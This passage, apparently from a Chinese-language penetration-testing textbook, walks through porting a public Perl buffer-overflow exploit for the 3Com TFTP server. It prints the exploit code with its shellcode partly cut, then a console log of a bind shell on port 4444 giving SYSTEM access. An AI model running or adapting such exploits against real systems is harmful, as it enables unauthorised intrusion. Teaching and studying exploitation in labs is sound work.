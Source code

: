 ```
if(!($ARGV[1]))
{
 print "\n3COM Tftp long transport name exploit\n";
 print "\tCoded by Umesh wanve\n\n";
 print "Use: 3com_tftp.pl <host> <port>\n\n";
 exit;
}
$target = IO::Socket::INET->new(Proto=>'udp',
                                PeerAddr=>$ARGV[0],
                                PeerPort=>$ARGV[1])
                            or die "Cannot connect to $ARGV[0] on port $ARGV[1]";
my($shellcode) = ❶
"\xda\xc5\xd9\x74\x24\xf4\x5f\xb8\xd4\x9d\x5d\x7a\x29\xc9" .
--*snip*--
"\x27\x92\x07\x7e";
print "++ Building Malicious Packet .....\n";
$padding="A" x 105; ❷
$jmp_xp = "\x4E\xAE\x45\x7E";❸# jmp esi user32.dll windows xp sp3 english
$exploit = "\x00\x02";                        #write request (header)
$exploit=$exploit."A";                        #file name
$exploit=$exploit."\x00";                     #Start of transporting name
$exploit=$exploit.$shellcode;                 #shellcode
$exploit=$exploit.$padding;                   #padding
$exploit=$exploit.$jmp_xp;                    #jump to shellcode
$exploit=$exploit."\x00";                     #end of TS mode name
print $target $exploit;                       #Attack on victim
print "++ Exploit packet sent ...\n";
print "++ Done.\n";
print "++ Telnet to 4444 on victim's machine ....\n";
sleep(2);
close($target);
exit;
#----------------------------------------------------------------------------------------------
# milw0rm.com [2007-02-28]
```

我们移植的漏洞代码将类似于示例 19-6，其中 shellcode ❶、填充 ❷ 和返回地址 ❸ 已根据我们的需求进行了调整。

如果你一切操作正确，当你运行移植后的漏洞时，一个具有系统权限的绑定 Shell 将在 TCP 端口 4444 上打开，正如示例 19-7 中所示。

示例 19-7. 运行移植的漏洞

```
root@kali:~# **./exploitdbexploit.pl 192.168.20.10 69**
++ Building Malicious Packet .....
++ Exploit packet sent ...
++ Done.
++ Telnet to 4444 on victim's machine ....
root@kali:~# **nc 192.168.20.10 4444**
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```
